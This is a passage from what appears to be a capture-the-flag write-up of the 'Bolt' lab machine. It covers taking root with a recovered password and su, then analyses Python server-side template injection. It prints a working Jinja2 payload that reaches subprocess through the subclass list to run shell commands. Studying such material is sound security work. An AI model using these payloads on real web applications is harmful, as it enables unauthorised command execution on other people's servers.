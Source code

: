 The root password is there. Opening the item, selecting edit, and then clicking on the eye, it shows the password:

![image-20210908205308180](https://0xdfimages.gitlab.io/img/image-20210908205308180.png)

### su

With this password I can becoming root with `su`:

```

eddie@bolt:~$ su -
Password: 
root@bolt:~#

```

And read the flag:

```

root@bolt:~# cat root.txt
47062921************************

```

## Beyond Root

### Python SSTI Deep Dive

In [this video](https://www.youtube.com/watch?v=7o1J8vHdlYc), I’ll go for a deep dive into three different SSTI Python payloads and look at how they work:

### Trickier SSTI Payload

When I first solved, I started working with one of the SSTI payloads that took some calculation to figure out:

```

{{''.__class__.mro()[1].__subclasses__()[396]('id',shell=True,stdout=-1).communicate()[0].strip()}}

```

It returns a 500 error when I try to click the confirm link. I’ll remove a bunch of it to just get the list of subclasses:

```

{{ ''.__class__.__mro__[1].__subclasses__() }}

```

Submitting that returns a long list in the email:

![image-20210908163747213](https://0xdfimages.gitlab.io/img/image-20210908163747213.png)
